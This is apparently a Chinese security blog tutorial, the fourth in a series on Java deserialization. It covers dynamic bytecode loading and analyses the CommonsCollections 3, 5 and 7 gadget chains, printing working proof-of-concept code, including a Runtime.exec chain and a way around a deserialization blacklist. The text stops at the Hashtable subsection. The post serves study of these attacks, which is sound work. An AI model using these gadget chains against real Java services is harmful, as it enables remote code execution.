



# [](#java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E7%B3%BB%E5%88%97-4)Java反序列化漏洞系列-4

## [](#1-java-%E5%8A%A8%E6%80%81%E5%8A%A0%E8%BD%BD%E5%AD%97%E8%8A%82%E7%A0%81)1 Java 动态加载字节码

### [](#11-%E5%AD%97%E8%8A%82%E7%A0%81)1.1 字节码

严格来说，Java 字节码其实仅仅指的是 Java 虚拟机执行使用的一类指令，通常被存储 在 `.class` 文件中。

众所周知，不同平台、不同 CPU 的计算机指令有差异，但因为 Java 是一门跨平台的编译型语言，所以这些差异对于上层开发者来说是透明的，上层开发者只需要将自己的代码编译一次，即可运行在不同平台的 JVM 虚拟机中。

### [](#12-%E5%88%A9%E7%94%A8-urlclassloader-%E5%8A%A0%E8%BD%BD%E8%BF%9C%E7%A8%8B-class-%E6%96%87%E4%BB%B6)1.2 利用 URLClassLoader 加载远程 class 文件

利用 Java 的 ClassLoader 来用来加载字节码文件最基础的方法。嘉文主要说明 `URLClassLoader`。正常情况下，Java 会根据配置项 sun.boot.class.path 和 java.class.path 中列举到的基础路径(这些路径是经过处理后的 java.net.URL 类)来寻找 .class 文件来加载，而这个基础路径有分为三种情况：

-   URL 未以斜杠 `/` 结尾，则认为是一个 JAR 文件，使用 JarLoader 来寻找类，即为在 Jar 包中寻找 `.class` 文件
-   URL 以斜杠 `/` 结尾，且协议名是 file ，则使用 FileLoader 来寻找类，即为在本地文件系统中寻找 `.class` 文件
-   URL 以斜杠 `/` 结尾，且协议名不是 file ，则使用最基础的 Loader 来寻找类

正常开发的时候通常遇到的是前两者，那什么时候才会出现使用 Loader 寻找类的情况呢？当然是非 file 协议的情况下，最常见的就是 http 协议。

使用 HTTP 协议来测试，从远程 HTTP 服务器上加载 .class 文件：

`ClassLoader.java`

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>``` | ```java<br>package com.geekby.javavuln;<br><br>import java.lang.reflect.Method;<br>import java.net.URL;<br>import java.net.URLClassLoader;<br><br>public class Main {<br><br>    public static void main(String[] args) throws Exception {<br>        URL[] urls = {new URL("http://localhost:8000/")};<br>        URLClassLoader loader = URLClassLoader.newInstance(urls);<br>        Class c = loader.loadClass("Hello");<br>        Method f = c.getMethod("test");<br>        f.invoke(null, null);<br>    }<br>}<br>``` |

Hello.java

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```java<br>public class Hello {<br>    public static void test() {<br>        System.out.println("test");<br>    }<br>}<br>``` |

执行:


成功请求到 `/Hello.class` 文件，并执行了文件里的字节码，输出了「test」。

所以，如果攻击者能够控制目标 Java ClassLoader 的基础路径为一个 http 服务器，则可以利用远程加载的方式执行任意代码了。

### [](#13-%E5%88%A9%E7%94%A8-classloaderdefineclass-%E7%9B%B4%E6%8E%A5%E5%8A%A0%E8%BD%BD%E5%AD%97%E8%8A%82%E7%A0%81)1.3 利用 ClassLoader#defineClass 直接加载字节码

不管是加载远程 class 文件，还是本地的 class 或 jar 文件，Java 都经历的是下面这三个方法调用:

-   `ClassLoader#loadClass`
-   `ClassLoader#findClass`
-   `ClassLoader#defineClass`

其中：

-   `loadClass` 的作用是从已加载的类缓存、父加载器等位置寻找类，在前面没有找到的情况下，执行 `findClass`
-   `findClass` 的作用是根据基础 URL 指定的方式来加载类的字节码，就像上一节中说到的，可能会在本地文件系统、jar 包或远程 http 服务器上读取字节码，然后交给 `defineClass`
-   `defineClass` 的作用是处理前面传入的字节码，将其处理成真正的 Java 类

因此，真正核心的部分其实是 defineClass ，其决定了如何将一段字节流转变成一个 Java 类，Java 默认的 `ClassLoader#defineClass` 是一个 native 方法，逻辑在 JVM 的 C 语言代码中。

通过简单的代码示例，演示 `defineClass` 加载字节码：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>``` | ```java<br>public class defineClassDemo {<br>    public static void main(String[] args) throws Exception{<br>        Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);<br>        defineClass.setAccessible(true);<br><br>        // 读取字节码并进行 base64 编码<br>        byte[] b = Files.readAllBytes(Paths.get("Hello.class"));<br>        String code = Base64.getEncoder().encodeToString(b);<br><br>        // base64 解码<br>        byte[] byteCode = Base64.getDecoder().decode(code);<br>        Class hello = (Class)defineClass.invoke(ClassLoader.getSystemClassLoader(), "Hello", byteCode, 0, byteCode.length);<br>        Method m = hello.getMethod("test", null);<br>        m.invoke(null, null);<br>    }<br>}<br>``` |


信息

在 `defineClass` 被调用的时候，类对象是不会被初始化的，只有这个对象显式地调用其构造函数，初始化代码才能被执行。而且，即使我们将初始化代码放在类的 static 块中，在 `defineClass` 时也无法被直接调用到。所以，如果要使用 `defineClass` 在目标机器上执行任意代码，需要想办法调用构造函数。

在实际场景中，因为 `defineClass` 方法作用域是不开放的，所以攻击者很少能直接利用到它，但它却是常用的一个攻击链 `TemplatesImpl` 的基石。

### [](#14-%E5%88%A9%E7%94%A8-templatesimpl-%E5%8A%A0%E8%BD%BD%E5%AD%97%E8%8A%82%E7%A0%81)1.4 利用 TemplatesImpl 加载字节码

前面提到过，开发者不会直接使用到 defineClass 方法，但是，Java 底层还是有一些类用到了它，如：`TemplatesImpl`。

`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl` 这个类中定义了一个内部类 `TransletClassLoader` ，这个类里重写了 `defineClass` 方法，并且这里没有显式地声明其定义域。Java 中默认情况下，如果一个方法没有显式声明作用域，其作用域为 default。因此，这里被重写的 defineClass 由其父类的 protected 类型变成了一个 default 类型的方法，可以被类外部调用。

从 `TransletClassLoader#defineClass()` 向前追溯一下调用链：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>TemplatesImpl#getOutputProperties()<br>-> TemplatesImpl#newTransformer()<br>-> TemplatesImpl#getTransletInstance() <br>-> TemplatesImpl#defineTransletClasses() <br>-> TransletClassLoader#defineClass()<br>``` |

追到最前面两个方法 `TemplatesImpl#getOutputProperties()` 、 `TemplatesImpl#newTransformer()` ，这两者的作用域是 public，可以被外部调用。尝试用 `newTransformer()` 构造一个简单的 POC：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>``` | ```java<br>public static void main(String[] args) throws Exception {<br>    String code = "...";<br>    byte[] byteCode = Base64.getDecoder().decode(code);<br>  <br>    TemplatesImpl obj = new TemplatesImpl();<br>  	// _bytecodes 是由字节码组成的数组<br>    Class c = TemplatesImpl.class;<br>    Field _bytecodes = c.getDeclaredField("_bytecodes");<br>    _bytecodes.setAccessible(true);<br>    _bytecodes.set(obj, new byte[][]{byteCode});<br>  <br>    // _name 可以是任意字符串，只要不为 null 即可<br>    Field _name = c.getDeclaredField("_name");<br>    _name.setAccessible(true);<br>    _name.set(obj, "HelloTemplatesImpl");<br>    <br>    // 固定写法<br>    Field _tfactory = c.getDeclaredField("_tfactory");<br>    _tfactory.setAccessible(true);<br>    _tfactory.set(obj, new TransformerFactoryImpl());<br>  <br>    obj.newTransformer();<br>}<br>``` |

但是，`TemplatesImpl` 中对加载的字节码是有一定要求的：这个字节码对应的类必须是 com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet 的子类。需要构造一个特殊的类：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```java<br>public class HelloTemppaltesImpl extends AbstractTranslet {<br>    @Override<br>    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}<br><br>    @Override<br>    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}<br><br>    public HelloTemppaltesImpl() {<br>        super();<br>        System.out.println("Hello TemplatesImpl");<br>    }<br>}<br>``` |



在多个 Java 反序列化利用链，以及 fastjson、jackson 的漏洞中，都曾出现过 TemplatesImpl 的身影。

### [](#15-%E5%88%A9%E7%94%A8-bcel-classloader-%E5%8A%A0%E8%BD%BD%E5%AD%97%E8%8A%82%E7%A0%81)1.5 利用 BCEL ClassLoader 加载字节码

> BCEL 的全名为 Apache Commons BCEL，属于 Apache Commons 项目下的一个子项目，但其因为被 Apache Xalan 所使用，而 Apache Xalan 又是 Java 内部对于 JAXP 的实现，所以 BCEL 也被包含在了 JDK 的原生库中。

通过 BCEL 提供的两个类 `Repository` 和 `Utility` 来利用：用于将一个 Java Class 先转换成原生字节码，当然这里也可以直接使用 javac 命令来编译 java 文件生成字节码；Utility 用于将原生的字节码转换成 BCEL 格式的字节码：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```java<br>import com.sun.org.apache.bcel.internal.Repository;<br>import com.sun.org.apache.bcel.internal.classfile.Utility;<br>import com.sun.org.apache.bcel.internal.classfile.JavaClass;<br><br>public class BCELdemo {<br>    public static void main(String[] args) throws Exception {<br>        JavaClass cls = Repository.lookupClass(evil.Hello.class);<br>        String code = Utility.encode(cls.getBytes(), true);<br>        System.out.println(code);<br>    }<br>}<br>``` |

而 `BCEL ClassLoader` 用于加载这串特殊的 `bytecode`，并可以执行其中的代码:



## [](#2-commonscollections-3-gadget-%E5%88%86%E6%9E%90)2 CommonsCollections 3 Gadget 分析

在 CC1 中，利用 TransformedMap 来执行任意方法，上一节中提到过，利用 TemplatesImpl 执行字节码，可以将两者合并，构造出如下 POC：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>``` | ```java<br>package com.geekby.cc3test;<br><br><br>import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;<br>import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;<br>import org.apache.commons.collections.Transformer;<br>import org.apache.commons.collections.functors.ChainedTransformer;<br>import org.apache.commons.collections.functors.ConstantTransformer;<br>import org.apache.commons.collections.functors.InvokerTransformer;<br>import org.apache.commons.collections.map.TransformedMap;<br><br>import java.lang.reflect.Field;<br>import java.nio.file.Files;<br>import java.nio.file.Paths;<br>import java.util.HashMap;<br>import java.util.Map;<br><br>public class Main {<br>    public static void main(String[] args) throws Exception {<br>        byte[] code = Files.readAllBytes(Paths.get("HelloTemppaltesImpl.class"));<br><br>        TemplatesImpl obj = new TemplatesImpl();<br>        setFieldValue(obj, "_bytecodes", new byte[][] {code});<br>        setFieldValue(obj, "_name", "HelloTemplatesImpl");<br>        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());<br><br><br>        Transformer[] transformers = new Transformer[] {<br>                new ConstantTransformer(obj),<br>                new InvokerTransformer("newTransformer", null, null)<br>        };<br><br>        Transformer transformerChain = new ChainedTransformer(transformers);<br><br>        Map innerMap = new HashMap();<br>        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);<br>        outerMap.put("test", "poc");<br><br>    }<br><br>    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {<br>        Field field = obj.getClass().getDeclaredField(fieldName);<br>        field.setAccessible(true);<br>        field.set(obj, value);<br>    }<br>}<br>``` |

但是，在 ysoserial 中的 CC3 中，并没有用到 `InvokerTransformer`。

SerialKiller 是一个 Java 反序列化过滤器，可以通过黑名单与白名单的方式来限制反序列化时允许通过的类。在其发布的第一个版本代码中，可以看到其给出了最初的黑名单：


这个黑名单中 `InvokerTransformer` 赫然在列，也就切断了 `CommonsCollections1` 的利用链。ysoserial 随后增加了新的 Gadgets，其中就包括 `CommonsCollections3`。

`CommonsCollections3` 的目的很明显，就是为了绕过一些规则对 `InvokerTransformer` 的限制。`CommonsCollections3` 并没有使用到 `InvokerTransformer` 来调用任意方法，而是用到了另一个类，`com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter`。

这个类的构造方法中调用了 `(TransformerImpl) templates.newTransformer()` ，免去了使用 `InvokerTransformer` 手工调用 `newTransformer()` 方法这一步:


当然，缺少了 InvokerTransformer，TrAXFilter 的构造方法也是无法调用的。通过利用 `org.apache.commons.collections.functors.InstantiateTransformer` 中的 `InstantiateTransformer` 调用构造方法。

所以，最终的目标是，利用 `InstantiateTransformer` 来调用到 `TrAXFilter` 的构造方法，再利用其构造方法里的 `templates.newTransformer()` 调用到 `TemplatesImpl` 里的字节码。

构造的 Transformer 调用链如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```java<br>Transformer[] transformers = new Transformer[]{<br>    new ConstantTransformer(TrAXFilter.class),<br>    new InstantiateTransformer(new Class[] { Templates.class }, new Object[] { obj })<br>};<br>``` |

最终也是可以成功触发的：



警告

这个 POC 和 CC1 也有同样的问题，就是只支持 Java 8u71 及以下版本。

完整的反序列化过程如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>56<br>57<br>58<br>59<br>60<br>61<br>62<br>63<br>64<br>65<br>66<br>67<br>68<br>69<br>``` | ```java<br>package com.geekby.cc3test;<br><br><br>import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;<br>import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;<br>import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;<br>import org.apache.commons.collections.Transformer;<br>import org.apache.commons.collections.functors.ChainedTransformer;<br>import org.apache.commons.collections.functors.ConstantTransformer;<br>import org.apache.commons.collections.functors.InstantiateTransformer;<br>import org.apache.commons.collections.functors.InvokerTransformer;<br>import org.apache.commons.collections.map.TransformedMap;<br><br>import javax.xml.transform.Templates;<br>import java.io.ByteArrayInputStream;<br>import java.io.ByteArrayOutputStream;<br>import java.io.ObjectInputStream;<br>import java.io.ObjectOutputStream;<br>import java.lang.annotation.Retention;<br>import java.lang.reflect.Constructor;<br>import java.lang.reflect.Field;<br>import java.nio.file.Files;<br>import java.nio.file.Paths;<br>import java.util.HashMap;<br>import java.util.Map;<br><br>public class CC3Original {<br>    public static void main(String[] args) throws Exception {<br>        byte[] code = Files.readAllBytes(Paths.get("/Volumes/MacOS/WorkSpace/JAVA/ClassLoaderVuln/http/HelloTemppaltesImpl.class"));<br><br>        TemplatesImpl obj = new TemplatesImpl();<br>        setFieldValue(obj, "_bytecodes", new byte[][] {code});<br>        setFieldValue(obj, "_name", "HelloTemplatesImpl");<br>        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());<br><br>        Transformer[] transformers = new Transformer[]{<br>                new ConstantTransformer(TrAXFilter.class),<br>                new InstantiateTransformer(new Class[] { Templates.class }, new Object[] { obj })<br>        };<br><br>        Transformer transformerChain = new ChainedTransformer(transformers);<br><br>        Map innerMap = new HashMap();<br>        innerMap.put("value","Geekby");<br>        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);<br><br>        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");<br>        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);<br>        construct.setAccessible(true);<br>        Object res = construct.newInstance(Retention.class, outerMap);<br>			// 序列化<br>        ByteArrayOutputStream barr = new ByteArrayOutputStream();<br>        ObjectOutputStream oos = new ObjectOutputStream(barr);<br>        oos.writeObject(res);<br>        oos.close();<br><br>        // 反序列化<br>        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));<br>        ois.readObject();<br>    }<br><br><br><br>    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {<br>        Field field = obj.getClass().getDeclaredField(fieldName);<br>        field.setAccessible(true);<br>        field.set(obj, value);<br>    }<br>}<br>``` |

## [](#3-commonscollections-5-gadget-%E5%88%86%E6%9E%90)3 CommonsCollections 5 Gadget 分析

CC5 的调用链：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```fallback<br>->BadAttributeValueExpException.readObject()<br>      ->TiedMapEntry.toString()<br>          ->TiedMapEntry.getValue()<br>            ->LazyMap.get()<br>                ->ChainedTransformer.transform()<br>                    ->ConstantTransformer.transform()<br>                            ->InvokerTransformer.transform()<br>                                ->…………<br>``` |

这里又回到了去触发 `LazyMap.get()`，只不过改变了 `LazyMap.get()` 的触发方式，不再借助 `AnnotationInvocationHandler` 的反序列化触发。

在 TiedMapEntry 类中：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>``` | ```java<br>public class TiedMapEntry implements Entry, KeyValue, Serializable {<br><br>    private static final long serialVersionUID = -8453869361373831205L;<br>    private final Map map;<br>    private final Object key;<br><br>    //构造函数，显然我们可以控制 this.map 为 LazyMap<br>    public TiedMapEntry(Map map, Object key) {<br>        this.map = map;<br>        this.key = key;<br>    }<br><br>    //toString函数，注意这里调用了 getValue()<br>    public String toString() {<br>        return this.getKey() + "=" + this.getValue();<br>    }<br><br>    //跟进 getValue(), 这是关键点 this.map.get() 触发 LazyMap.get()<br>    public Object getValue() {<br>        return this.map.get(this.key);<br>    }<br><br>}<br>``` |

综上，通过 `TiedMapEntry.toString()` 可触发 `LazyMap.get()`

通过交叉引用搜索，是否存在一个类可以在反序列化过程中触发 `TiedMapEntry.toString()`，最终找到了 `BadAttributeValueExpException`：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>``` | ```java<br>public class BadAttributeValueExpException extends Exception   {<br>    private Object val;     //这里可以控制 val 为 TiedMapEntry<br><br>    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {<br>        ObjectInputStream.GetField gf = ois.readFields();<br>        Object valObj = gf.get("val", null);<br><br>        if (valObj == null) {<br>            val = null;<br>        } else if (valObj instanceof String) {<br>            val= valObj;<br>        } else if (System.getSecurityManager() == null<br>                \| valObj instanceof Long<br>                \| valObj instanceof Integer<br>                \| valObj instanceof Float<br>                \| valObj instanceof Double<br>                \| valObj instanceof Byte<br>                \| valObj instanceof Short<br>                \| valObj instanceof Boolean) {<br>            val = valObj.toString();    //这里是关键点，调用toString()<br>        } else {<br>            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();<br>        }<br>    }<br>}<br>``` |

最终实现代码：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>56<br>57<br>58<br>``` | ```java<br>import org.apache.commons.collections.Transformer;<br>import org.apache.commons.collections.functors.ChainedTransformer;<br>import org.apache.commons.collections.functors.ConstantTransformer;<br>import org.apache.commons.collections.functors.InvokerTransformer;<br>import org.apache.commons.collections.keyvalue.TiedMapEntry;<br>import org.apache.commons.collections.map.LazyMap;<br><br>import javax.management.BadAttributeValueExpException;<br>import java.io.*;<br>import java.lang.reflect.Field;<br>import java.util.HashMap;<br>import java.util.Map;<br><br>public class CommonsCollections5 {<br><br>    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {<br><br>        //Transformer数组<br>        Transformer[] transformers = new Transformer[] {<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),<br>                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),<br>                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})<br>        };<br><br>        //ChainedTransformer实例<br>        Transformer chainedTransformer = new ChainedTransformer(transformers);<br><br>        //LazyMap实例<br>        Map uselessMap = new HashMap();<br>        Map lazyMap = LazyMap.decorate(uselessMap,chainedTransformer);<br><br>        //TiedMapEntry 实例<br>        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"test");<br><br>        //BadAttributeValueExpException 实例<br>        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);<br><br>        //反射设置 val<br>        Field val = BadAttributeValueExpException.class.getDeclaredField("val");<br>        val.setAccessible(true);<br>        val.set(badAttributeValueExpException, tiedMapEntry);<br><br>        //序列化<br>        ByteArrayOutputStream baos = new ByteArrayOutputStream();<br>        ObjectOutputStream oos = new ObjectOutputStream(baos);<br>        oos.writeObject(badAttributeValueExpException);<br>        oos.flush();<br>        oos.close();<br><br>        //测试反序列化<br>        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());<br>        ObjectInputStream ois = new ObjectInputStream(bais);<br>        ois.readObject();<br>        ois.close();<br><br>    }<br>}<br>``` |

## [](#4-commonscollections-7-gadget-%E5%88%86%E6%9E%90)4 CommonsCollections 7 Gadget 分析

cc7 调用链：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```fallback<br>//这里是 jdk 1.7 的，不同版本 HashMap readObject 可能略有不同<br>  ->Hashtable.readObject()<br>      ->Hashtable.reconstitutionPut()<br>            ->AbstractMapDecorator.equals<br>                ->AbstractMap.equals()<br>                  ->LazyMap.get()<br>                    ->ChainedTransformer.transform()<br>                      ->ConstantTransformer.transform()<br>                        ->InvokerTransformer.transform()<br>                          ->…………<br>``` |

`LazyMap` 之后的利用链也和 CC1 相同，前面用了新的链进行触发。这里仍然是想办法触发 `LazyMap.get()`。在 Hashtable 的 readObject 中，遇到 hash 碰撞时，通过调用一个对象的 `equals` 方法对比两个对象，判断是否为真的 hash 碰撞。这里的 equals 方法是 `AbstractMap` 的 `equals` 方法。

### [](#41-abstractmap)4.1 AbstractMap

由于 `LazyMap` 没有实现 `equals` 方法，所以调用其 `equals` 方法即调用其父类

`AbstractMapDecorator` 的 `equals` 方法：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```java<br>public boolean equals(Object object) {<br>    if (object == this) {<br>        return true;<br>    }<br>    return map.equals(object);<br>}<br>``` |

即调用其所包装的 `map` 的 `equals` 方法。

如果这里包装的是 `HashMap` 而其没有实现 `equals` 方法，就会调用其父类 `AbstractMap` 的 `equals`方法：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```java<br>public boolean equals(Object o) {<br>	...<br>    Map<K,V> m = (Map<K,V>) o;<br>	...<br>            if (value == null) {<br>                if (!(m.get(key)==null && m.containsKey(key)))<br>                    return false;<br>            } else {<br>                if (!value.equals(m.get(key)))<br>                    return false;<br>            }<br>	...<br>}<br>``` |

此处调用了参数的 `get` 方法，可以此触发 `LazyMap.get` 从而完成利用。

### [](#42-hashtable)4.2 Hashtable

